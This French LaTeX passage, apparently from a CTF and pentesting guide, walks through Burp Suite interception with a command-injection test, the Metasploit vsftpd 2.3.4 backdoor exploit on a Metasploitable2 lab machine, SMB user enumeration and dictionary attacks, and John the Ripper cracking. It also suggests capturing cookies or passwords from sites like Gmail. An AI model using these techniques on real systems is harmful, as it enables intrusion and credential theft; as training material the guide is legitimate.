\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.6\textwidth]{oui/Ancien/imangeancien/burpsuite/burpsuite1.PNG}
  \caption{Interface graphique}
  \label{fig:courbe-tikz}
\end{figure}

\noindent Nous avons 3 types d’outils dans Burpsuite:\\

\noindent Les outils centraux:\\
- \textbf{Proxy} : Permet de configurer un proxy dans le but d’intercepter des requêtes web ou de les modifier avant de les transmettre au serveur web.\\
- \textbf{Site map} : Permet d’avoir une vue arborescente du trafic observé.\\


\noindent Les outils manuels:\\
- \textbf{Intruder}: Émission en masse de requêtes HTTP/HTTPS.\\
- \textbf{Repeater}: Permet la modification avant l’envoi de nos requêtes.\\

\noindent Les outils automatiques:\\
- \textbf{Spider}: Cet outil permet la récolte d’informations passives comme la détection de ressources et la collecte active.\\
- \textbf{Scanner}: Il va rechercher automatiquement des vulnérabilités (via le mode passif ou actif).\\

\noindent Les autres outils:\\
- \textbf{Sequencer}: Permet de  tester l'existence aléatoire des sessions avec jetons (token).\\
- \textbf{Decoder}: Conversion URL/HTML/Base64/Hexa/Octal/Binaire/GZip + hashes.\\

Burpsuite permet également la configuration de macros dans le but d’automatiser des tâches. De plus, l’avantage de Burpsuite réside dans la possibilité d’une configuration multiple, mais également, dans ses nombreuses fonctionnalités permettant d’aider les pentesteurs les plus expérimentés.\\

Ainsi, dans le cas d’un audit de sécurité ou d’un CTF, nous pouvons utiliser cet outil pour capturer le trafic des utilisateurs et ainsi récupérer des mots de passe ou des cookies de connexions pour se connecter à des sites (Gmail, Facebook,...).\\

\subsubsection{Exemple d’utilisation sur un CTF:}

\noindent Dans le cas où nous avons un formulaire de connexion, nous pouvons utiliser le mode Intercept de Burpsuite pour tester la sécurité de ce dernier, et ainsi injecter ou non du code malveillant comme le montre ce schéma :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/burpsuite/Burpsuite-Fonctionnement.jpg}
  \caption{Fonctionnement du mode Intercept de Burpsuite}
  \label{fig:courbe-tikz}
\end{figure}

\newpage
\noindent Pour cela, il faut aller dans la catégorie proxy et choisir l’adresse IP du proxy à utiliser:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/burpsuite/burpsuite2.PNG}
  \caption{Mise en place du proxy BurpSuite}
  \label{fig:courbe-tikz}
\end{figure}
Dans notre cas, nous prendrons toutes les adresses IP de notre interface web (d’où le “*”) sur le port 8080. Ensuite, sur un ordinateur client, il suffit de préciser dans le navigateur le proxy à utiliser:
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/burpsuite/burpsuite3.PNG}
  \caption{Mise en place du proxy coté client}
  \label{fig:courbe-tikz}
\end{figure}\\
On peut donc commencer les tests. Il faudra mettre Burpsuite sur le mode “intercept on” pour intercepter toutes les requêtes.\\

\newpage
\noindent Prenons le cas de ce formulaire en HTTP :
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/burpsuite/burpsuite4.PNG}
  \caption{Formulaire Web}
  \label{fig:courbe-tikz}
\end{figure}\\
\noindent Par exemple, nous allons entrer un username et un password :
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/burpsuite/burpsuite5.PNG}
  \caption{Formulaire Web}
  \label{fig:courbe-tikz}
\end{figure}\\
Comme nous pouvons le voir sur Burpsuite, on récupère la requête envoyée au serveur :
\newpage
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/burpsuite/burpsuite6.PNG}
  \caption{Interception requête HTTP}
  \label{fig:courbe-tikz}
\end{figure}

\noindent On peut alors la modifier avant de la transmettre au serveur :
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/burpsuite/burpsuite7.PNG}
  \caption{Modification de la requête}
  \label{fig:courbe-tikz}
\end{figure}\\
Dans notre cas, nous allons essayer d’injecter la commande "ping" pour tester la sécurité du champ “password”.\\

\newpage

\noindent Si on scrute le réseau avec Wireshark:
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/burpsuite/burpsuite8.PNG}
  \caption{Modification de la requête}
  \label{fig:courbe-tikz}
\end{figure}

Le ping fonctionne bien. Cela veut dire que l'on peut injecter n’importe quelle commande dans le champ password. On pourrait par exemple injecter un reverse shell pour prendre le contrôle à distance la machine.

%\newpage

\section{Metasploit Framework}
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.2\textwidth]{oui/Ancien/imangeancien/metasploit.png}
  \caption{Logo de Metasploit}
  \label{fig:courbe-tikz}
\end{figure}

\subsection{Présentation de Metasploit}
Metasploit Pen Testing tool est un projet Open Source (sous Licence BSD modifiée) destiné à la sécurité informatique. Le but de ce projet est de rechercher des vulnérabilités ou des informations sur des systèmes automatisés de données ainsi que d'aider à la pénétration et au développement de signatures pour les IDS.\\

L'outil que nous allons étudier ici est "Metasploit Framework" qui est un sous projet de
Metasploit Pen Testing tool. C'est le sous projet le plus connu car il permet le développement et l’exécution d’exploits (logiciels permettant d’exploiter à son profit une vulnérabilité) contre une machine distante.\\

A la base, cet outil a été écrit en Perl. A la suite de quelques mises à jours, l'outil a complètement été réécrit en Ruby. Cet outil a été conçu par HD Moore en 2003 et il est désormais maintenu par la société Rapid7. C'est un outil très puissant permettant à des chercheurs en sécurité de travailler sur des potentielles vulnérabilités. Cependant, comme la plupart des outils de sécurité informatique, Metasploit peut être utilisé à la fois de manière légale et à la fois pour des activités illégales.\\
Aujourd'hui, le projet metasploit est hébergé sur le github de la société Rapid7, ce qui permet à des utilisateurs indépendants d'y développer des modules d'exploitation pour des vulnérabilités logicielles et de les poster dans le projet Git. Ainsi, chaque utilisateur peut contribuer au développement de cet outil. Cependant, avant chaque publication, la société Rapid7 teste et vérifie le bon fonctionnement de l'exploit avant de le mettre à disposition sur github.\\
Comme nous l’avons dit précédemment, Metasploit possède un Framework ce qui facilite le travail des contributeurs puisqu’ils peuvent utiliser des fonctions de ce dernier pour développer leurs exploits. Enfin, ce qui fait la “force” de Metasploit est qu’il peut regrouper beaucoup d’outils très intéressants tels que Nmap, Hydra ou encore John the ripper, le tout dans une seule console. Cela permet de centraliser beaucoup d’outils de Kali linux.
\subsection{Architecture modulaire}
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.5\textwidth]{oui/Ancien/imangeancien/Metasploit_Architecture.jpg}
  \caption{Architecture modulaire}
  \label{fig:courbe-tikz}
\end{figure}

La particularité de Metasploit est qu’il possède une architecture modulaire, ce qui permet un développement plus facile, une amélioration progressive du programme. De plus, les modules peuvent être rechargés sans redémarrage de l’application, ce qui est très pratique pour le développement.\\
Comme nous pouvons le constater sur ce schéma, il y 3 grandes parties qui composent Metasploit. La première est la librairie. Cette dernière permet de regrouper un grand nombre de fonctions et de programmes dans le but de constituer une API. Ainsi, lors de l’écriture d’un exploit ou d’un payload, le développeur n’aura qu'à connaître l’API de Metasploit pour son développement.\\
\noindent Metasploit utilise un système de librairie pour stocker ses fichiers.
\noindent La librairie est composée de :\\
- \textbf{Rex} – C’est la librairie principale regroupant la gestion des sockets, protocoles, encodeurs, SSL, SMB, HTTP, XOR, Base64, Unicode.\\
- \textbf{MSF::Core} – Cela permet de fournir l’API basique.\\
- \textbf{MSF::Base} Fournit l'API " amicale "et il fournit des API simplifiées à utiliser dans le framework.\\

\noindent Metasploit peut s’utiliser sur plusieurs interfaces:\\
- \textbf{Msfconsole} : Permet d’avoir une console Metasploit au sein d’un shell, elle est considérée comme l’interface la plus puissante et la plus complète.\\
- \textbf{MsfCli :} Permet d’utiliser Metasploit en ligne de commande ce qui peut être très pratique pour l’intégrer dans un script.\\
- \textbf{Msfweb:} Permet d’accéder à l’ensemble des outils de Metasploit sur une interface web. Facile d’utilisation.\\
- \textbf{Armitage:} Interface GUI de Metasploit. Cet outil est développé par Raphel Mudge et il regroupe tous les outils de Metasploit sous forme d’interface graphique. De plus, il supporte msfcli ainsi que msfconsole.\\

\noindent L’architecture de Metasploit peut également être représentée en modèle objet : 
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/msfarch2.png}
  \caption{Architecture modèle objet}
  \label{fig:courbe-tikz}
\end{figure}\\
Tous les modules de Metasploits sont des classes Ruby. On peut donc en déduire d'une part que d'après ce schéma, la classe Modules hérite d'une classe spécifique. Cette classe spécifique hérite de la classe Msf::Module et enfin, tous les modules se partagent une API commune.\\

D'autres part, on peut accéder aux modules depuis le terminal avec la commande suivante:
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/modules.PNG}
  \caption{Accès aux modules de Metasploit}
  \label{fig:courbe-tikz}
\end{figure}

\subsection{Base de données de Metasploit}
\noindent Le Framework Metasploit fournit un support des bases de données utilisant  PostgreSQL. Cette dernière stocke des informations, telles que les données de l'hôte, les résultats de scans comme nmap et les résultats d'exploitation. Cela peut être très utile si on fait beaucoup d'exploits ou de tests d'intrusions sur des machines.

\noindent Cependant, cette base de données n'a pas besoin d'être lancée pour exécuter Metasploit mais elle est très utile pour stocker des logs de scan ou d'exploit.\\

\noindent Pour lancer PostgreSQL sous Kali linux, on utilise la commande suivante:
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/metasploit/db_launch.PNG}
  \caption{Lancement du service PostgreSQL}
  \label{fig:courbe-tikz}
\end{figure}

\noindent On peut si on le souhaite, créer une base de données en local pour Metasploit. Pour initialiser une base de données, on utilise la commande suivante:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/db_init.PNG}
  \caption{Création de la base de données}
  \label{fig:courbe-tikz}
\end{figure}

Ainsi, cette commande va créer plusieurs utilisateurs avec des mots de passes et créer deux bases de données : msf et msf\_test. On peut également vérifier la configuration de notre base données qui se trouve dans le fichier \textbf{/usr/share/metasploit-framework/config/ \\ database.yml}:

%\newpage

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/database.PNG}
  \caption{Fichier database.yml}
  \label{fig:courbe-tikz}
\end{figure}


\noindent On peut voir que la base de données a bien été lancée :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/db_status1.PNG}
  \caption{Status de la DB}
  \label{fig:courbe-tikz}
\end{figure}

\noindent On peut voir qu'il y a 1'utilisateur qui a été créé msf" ainsi que 3 catégories "development" , "production" et "test". Ce fichier permet de récupérer les informations de connexion pour se connecter à la base de données.\\

\noindent En lançant Metasploit, on peut utiliser la commande \textbf{db\_connect} pour se connecter à notre base de données :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/db_connect.PNG}
  \caption{Connexion à la base de données}
  \label{fig:courbe-tikz}
\end{figure}
\noindent Cette commande nous indique que nous pouvons nous connecter soit en rentrant directement l'utilisateur, le mot de passe, l'adresse IP et la base de données, soit en renseignant un fichier de connexion à utiliser comme le fichier \textbf{database.yml}.\\

\noindent Nous allons par exemple renseigner la méthode avec le fichier :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/db_connect2.PNG}
  \caption{Connexion avec un fichier}
  \label{fig:courbe-tikz}
\end{figure}

\noindent On vérifie qu'on est bien connecté à la base de données :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.5\textwidth]{oui/Ancien/imangeancien/metasploit/db_status2.PNG}
  \caption{Vérification de la connexion avec la DB}
  \label{fig:courbe-tikz}
\end{figure}

Une fois connecté à la base de données, on peut réaliser quelques actions intéressantes. Par exemple, on peut stocker le résultat d'un scan \textbf{nmap} avec la commande \textbf{db\_nmap} :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/db_nmap.PNG}
  \caption{Scan NMAP avec DB}
  \label{fig:courbe-tikz}
\end{figure}

Pour l'exemple, on scanne une machine virtuelle de notre réseau local dans laquelle il y a des services ouverts potentiellement vulnérables.\\

La commande \textbf{hosts} permet de voir quelles sont les machines que nous avons scannées et qui sont stockées dans la base de données comme indiqué sur la \textbf{figure \ref{fig:meta-hote}}\\

\begin{figure}[h]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/db_hosts.PNG}
  \caption{Hôtes scannés}
  \label{fig:meta-hote}
\end{figure}

La commande \textbf{services} permet de voir tous les services scannés avec nmap voir \textbf{figure \ref{fig:services-scan}}\\

\begin{figure}[h]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/db_services.PNG}
  \caption{Services scannés}
  \label{fig:services-scan}
\end{figure}

Il est également possible de pouvoir exporter notre base de données en format .xml avec la commande suivante indiqué dans la \textbf{figure \ref{fig:xml-db}}
\begin{figure}[h]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/db_export.PNG}
  \caption{Exportation de la DB}
  \label{fig:xml-db}
\end{figure}

%\newpage

\subsection{Une base de données communautaire}
Metasploit possède également une autre base de données pour la recherche d'exploit. En effet, Metasploit donne la possibilité de rechercher une vulnérabilité d'un service directement avec une ligne de commande qui est \textbf{searchsploit}.

En effet, Metasploit se connecte à la base de données de Rapide7 ou d'expoit-db qui est un site qui répertorie beaucoup d'exploit. Comme nous l'avons vu en introduction, les utilisateurs peuvent contribuer à Metasploit en créant des modules, des payload ((charge utile) c'est le morceau du code que nous voulons que le système exécute) ou des exploits. 

Ainsi, ces utilisateurs contribuent à la base de données communautaire de Metasploit. Par exemple, si un utilisateur écrit un exploit pour une vulnérabilité, il peut la faire partager à toute la communauté. De ce fait, cet exploit sera disponible directement dans Metasploit. Cependant, chaque contribution est vérifiée par l'équipe de Rapid7 avant de la rendre disponible dans la base de données.

Sous Kali Linux, si on veut exploiter cette base de données pour chercher un exploit sur FTP on va procéder comme ceci indiqué dans la \textbf{figure \ref{fig:exploit-db}}

\begin{figure}[htp]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/searchsploit-ex.PNG}
  \caption{Recherche d'exploit dans la DB communautaire exploit-db}
  \label{fig:exploit-db}
\end{figure}

\noindent Cette commande nous retourne une liste des exploits disponible pour le service FTP. On remarque également que ces exploits sont stockés dans le répertoire \textbf{/usr/share/exploitdb/plateforms}.

\noindent Si on le souhaite, on peut faire une recherche en fonction de la version du service :
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/searchsploit-ex2.PNG}
  \caption{Recherche en fonction de la version}
  \label{fig:courbe-tikz}
\end{figure}

    \noindent Cela permettra de cibler plus facilement l'exploit à utiliser. Enfin, il faut savoir que tous les exploits présentés avec la commande \textbf{searchsploit} ne sont pas tous des exploits utilisables avec Metasploit. En effet, tous les exploits codés n'ont pas été faits pour Metasploit. On peut y retrouver des exploit en python ou encore en C. Cependant, tous les exploits compatibles avec metasploit auront la mention \textbf{(metapsloit)} dans leur nom lors de la recherche avec \textbf{searchsploit}. 

\subsection{Utilisation des modules et des exploits}

Comme nous l'avons dit en introduction, Metasploit utilise des modules pour fonctionner. Dans cette partie, nous allons voir comment les utiliser dans le cadre d'un audit de sécurité ou sur un CTF. La partie des modules est décomposée en 5 sous-parties qui sont :\\

- \textbf{Exploit}: Un exploit est le moyen par lequel un pentester exploite une faille, un défaut dans un logiciel ou un service. Ainsi, un attaquant peut utiliser un exploit pour attaquer un système d'informations et générer ainsi un résultat que les développeurs n'ont pas pris en compte. Les exploits les plus courants sont le débordement de tampon (buffer overflow), les vulnérabilités Web (injection SQL, défaillances XSS) et enfin les erreurs de configuration dans un logiciel.

- \textbf{Payloads}: Un payload ou charge utile est un code qui sera exécuté par le système. Dans cette partie, on peut y retrouver tout type de payload comme le reverse shell, c'est le fait de créer une connexion depuis la cible vers l’attaquant. De plus, Metasploit permet de regrouper les payloads en fonction du système d'exploitation (OS) de la machine victime.

- \textbf{Encoders}: C'est un module de metasploit permettant d'encoder des payloads ou des shellcode dans le but d'outrepasser la détection antivirus et les IDS. En effet, en encodant plusieurs fois un code malveillant, l'antivirus de la machine cible devra faire beaucoup de calculs avant de détecter le virus. Pour faire ses analyses, un antivirus place le programme à analyser dans une sandbox (machine virtuelle isolée de l'hote) dans laquelle il va faire ses analyses. Cependant, lors d’une analyse régulière du système, l’antivirus devra analyser des milliers de fichiers. Il ne peut pas se permettre de passer trop de temps sur un fichier en particulier.

- \textbf{Nops}: En langage assembleur, NOP est l'abréviation de No Operation. Le NOP permet de garder une taille de payload constante en s'assurant que tout espace non utilisé par un autre code sera toujours valablement exécutable par le processeur. En effet, lors de l'écriture d'un payload ou d'un shellcode, les NOP permettent de régler la problématique des sauts d'instructions en assembleur. Cette partie est utilisée lors de la programmation d'exploit ou de payload pour metasploit.

- \textbf{AUX}: "AUX" correspond aux modules auxiliaires de metasploit. Comme par exemple les scans de ports, de versions de services en utilisant NMAP.

Ce qui peut être très intéressant avec cet outil, c'est de combiner l'utilisation de NMAP et de Metasploit. En effet, NMAP permet de trouver des versions de services. Il nous suffit de chercher de versions vulnérable avec Metasploit. Comme nous l'avons vu précédemment, on peut utiliser la commande \textbf{searchsploit}. Si cela ne suffit pas, on peut chercher des exploits sur le net et les importer dans Metasploit. Pour utiliser un exploit, il suffit de faire la commande \textbf{use exploit/le\_chemin\_de\_l'exploit}. On peut également utiliser \textbf{use} pour utiliser tous les modules de Metasploit tel que le module auxiliaire avec \textbf{use auxiliary/chemin\_du\_programm}.\\

Pour rechercher un exploit directement dans metasploit afin de l'utiliser, on utilise la commande \textbf{search}. Cette commande va chercher tous les exploits disponibles dans Metasploit pour l'argument passé en paramètre.\\ 

\noindent On reprenant l'exemple de la section précédente, on aurait pu faire ceci:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/search.PNG}
  \caption{Search ftp}
  \label{fig:courbe-tikz}
\end{figure}

Cette capture donne le "chemin" de tous les exploits en rapport avec FTP 3.0.

\subsection{Utilisations}

\subsubsection{Exemple d'utilisation pour exploiter un service}

Pour cette exemple, nous allons voir comment exploiter un service vulnérable avec Metasploit. La machine cible sera une machine metasploitable2 conçu pour être vulnérable à beaucoup d'attaques:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.5\textwidth]{oui/Ancien/imangeancien/metasploit/schema.png}
  \caption{Schéma de la maquette}
  \label{fig:courbe-tikz}
\end{figure}

\newpage

Il suffit d'utiliser NMAP pour scanner la machine:
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/nmap.PNG}
  \caption{NMAP dans Metasploit}
  \label{fig:courbe-tikz}
\end{figure}

Ensuite on peut chercher des exploits sur \textbf{vsftpd 2.3.4}:
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/metasploit/ftp.PNG}
  \caption{search vsftpd 2.3.4}
  \label{fig:courbe-tikz}
\end{figure}

On constate qu'il existe un exploit pour effectuer un reverse shell sur la machine. On va donc l'utiliser avec la commande \textbf{use}:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/ftp5.PNG}
  \caption{use exploit}
  \label{fig:courbe-tikz}
\end{figure}

\noindent On peut utiliser la commande \textbf{show options} pour voir les options de cet exploit:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/ftp3.PNG}
  \caption{Show options}
  \label{fig:courbe-tikz}
\end{figure}

\newpage
On constate que nous devons renseigner un \textbf{RHOST}(Remote Host) qui correspond à la machine victime. On utilise la commande \textbf{set RHOST} pour éditer une option. Pour cet exemple, nous allons faire \textbf{set RHOST 192.168.1.54}. Une fois fait, on peut regarder à nouveau les options : 


\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/metasploit/ftp3.PNG}
  \caption{Set RHOST}
  \label{fig:courbe-tikz}
\end{figure}

On constate que le champ \textbf{RHOST} a bien été renseigné. On peut à présent lancer l'exploit avec la commande \textbf{exploit}:

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/metasploit/ftp4.PNG}
  \caption{Lancement de l'exploit}
  \label{fig:courbe-tikz}
\end{figure}

On s'aperçoit que l'exploit s'est bien exécuté sur la machine cible. Nous avons donc un reverse shell sur la machine distante.

\subsubsection{Récupération d'utilisateurs d'un serveur SMB}
Dans le cas d'un CTF qui utilise un serveur Samba par exemple, Metasploit peut être très utile pour énumérer la liste des utilisateurs du serveur Smb. Metasploit possède un module de scan permettant de faire cela. Il se trouve dans \textbf{auxiliary/scanner/smb} (voir \textbf{figure \ref{fig:smb-enum}})\\

\begin{figure}[h]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/msf_smb_enum.PNG}
  \caption{Utilisation du module smb\_enum}
  \label{fig:smb-enum}
\end{figure}

Il nous suffit de renseigner le champ "rhosts" qui correspond à l'adresse IP de la machine victime. Ensuite on tape "exploit" pour lancer le module. En quelques secondes, nous récupérons un utilisateur nommé "helios" qui est un utilisateur du serveur Samba.\\

On peut également récupérer le mot de passe avec une attaque par dictionnaire disponible avec un autre module nommé \textbf{smb\_login} comme indiqué dans la \textbf{figure \ref{fig:attaque-smb-dic}}

\begin{figure}[]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/msf_smb_pass.PNG}
  \caption{Attaque par dictionnaire smb}
  \label{fig:attaque-smb-dic}
\end{figure}
Enfin, il faut renseigner l'utilisateur avec lequel on veut trouver le mot de passe ainsi qu'un dictionnaire à utiliser. Dans notre cas, nous allons utiliser le dictionnaire "rockyou" qui est un dictionnaire comprenant 14.344.392 lignes (voir \textbf{figure \ref{fig:smb-dic-2}})\\

\begin{figure}[]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/msf_smb_pass2.PNG}
  \caption{Attaque par dictionnaire smb}
  \label{fig:smb-dic-2}
\end{figure}

Metasploit a trouvé le mot de passe de l'utilisateur "helios" qui était "qwerty". On peut donc se connecter au serveur SMB avec notre utilisateur:

\begin{figure}[h]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.9\textwidth]{oui/Ancien/imangeancien/msf_smb_pass3.PNG}
  \caption{Connexion au serveur SMB}
  \label{fig:courbe-tikz}
\end{figure}


\part{Quatrième partie}

\chapterimage{oui/images/illustrations/chap_shella.jpg}
\chapter{L'intrusion dans le système cible}

Après avoir exploité les failles via les outils présentés dans la section précédente, il se pourrait que vous soyez dans l'un des cas suivants :

\begin{itemize}
    \item \textbf{Caractères hashés}
    \item \textbf{Image contenant un fichier caché}
    \item \textbf{Possibilité d'effectuer un reverse-shell}
\end{itemize}

Nous allons donc, pour chaque cas ci-dessus, vous expliquer les outils qui vous permettront d'avancer dans un CTF.

\section{Caractères hashés}

Après avoir exploité une faille SQL par exemple, il se pourrait que les mots de passes des utilisateurs soient hashés. C'est pourquoi nous allons vous présenter l'outil John The Ripper.

\subsection{John The Ripper}

\subsubsection{Définition}

John The Ripper ou plus communément, John, est un utilitaire multi-plateformes ayant pour principal objectif de casser des mots de passe. John est certainement le programme le plus utilisé pour la sécurité de mot de passe.
John a plusieurs fonctionnalités. En effet, dans un premier temps, il est capable de reconnaître un hash donné. Cette fonctionnalité pourra nous être utile lors de CTF pour savoir comment recoder une information modifiée par exemple. Ensuite, en fonction du hash qu’il a reconnu et des options qu’on lui a associé, John est capable de trouver un mot de passe associé à un utilisateur.
Nous allons donc nous pencher sur son fonctionnement.

\subsubsection{Fonctionnement}

Comme nous l’avons vu dans la partie de Dirb, il existe une différence entre une attaque par dictionnaire et une attaque par bruteforce. Ici, John a la possibilité de faire 4 différents types d’attaques que nous allons détailler.\\

\noindent \textbf{Attaque via single mode}\\

Ce mode est le mode par défaut de cassage de mot de passe sur John. Cette attaque va tester tous les mots de passe basiques que nous avons l’habitude d’utiliser en fonction du nom d’utilisateur. Regardons un exemple très simple.
Nous allons hasher le mot de passe ‘ user1999 ‘ et ‘ salon ‘ pour les utilisateurs respectifs ‘ user1 ‘ et ‘ user2 ‘ via un site web.
Ensuite, nous allons enregistrer ceci dans un fichier texte sous ce format :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.5\textwidth]{oui/Ancien/imangeancien/john/format_txt.PNG}
  \caption{Format d'utilisation pour John}
  \label{fig:courbe-tikz}
\end{figure}

Nous pouvons à présent lancer John sans option en lui précisant juste le fichier à attaquer puis observer le résultat de l’attaque :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/john/affichage_mdp_single.PNG}
  \caption{John par défaut}
  \label{fig:courbe-tikz}
\end{figure}

Dans un premier temps, on retrouve la première phase de John qui est l’analyse du hash. Il détecte dans notre cas que les mots de passe sont hashés en SHA1.
Il va alors essayer de reconnaître des mots de passe qu’il avait déjà trouvé à partir de cet hôte et des mots de passe ressemblants à l’utilisateur.
Puis dans une seconde partie, John n’a pas su trouver le mot de passe ‘salon’ associé à user2. Il a dû donc procéder à une attaque par mode incrémental. Pour éviter cela, on aurait pu forcer John à rester sur le single mode avec l'option ' --single '.\\


\noindent \textbf{Attaque par dictionnaire}\\

Comme nous l’avons vu avec l’outil Dirb, qui fait une attaque par dictionnaire, le principe sera ici le même. John va se baser sur un dictionnaire afin de trouver le mot de passe. En effet, le dictionnaire va être utilisé en fonction des règles que John aura reçues. Ainsi, si le mot de passe correspond aux règles combinées au dictionnaire, John pourra nous donner le mot de passe.
Nous allons essayer ce concept avec le dictionnaire ‘rockyou.txt’ fourni par Kali :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/john/Dico.PNG}
  \caption{Attaque avec dictionnaire}
  \label{fig:courbe-tikz}
\end{figure}

\vspace{0,8cm}

L’attaque a été très rapide car le dictionnaire fourni par Kali est très complet.
Nous pouvons maintenant voir l’attaque via le mode incrémental.\\

\noindent \textbf{Attaque via le mode incrémental}\\

Le mode incrémental est un mode permettant de tester toutes les combinaisons possibles afin d'arriver à nos fins. C’est le moyen ultime pour obtenir un mot de passe car il fonctionnera toujours. Mais il ne faudra pas être pressé car, plus le mot de passe sera long, plus ce mode prendra du temps.
Nous allons rajouter un ‘ user3 ‘ avec pour mot de passe ‘ velizy78 ’ pour que le mode simple soit incapable de le trouver. Nous allons juste indiquer à John d’utiliser directement le mode incrémental sans option.
Cependant, après plusieurs minutes, John n’avait pas trouvé et avait crashé.
Nous allons donc faciliter la recherche de John en lui annonçant que nous savons quels sont les types de caractères à rechercher. En effet, le mode incrémental a des options que nous allons observer.
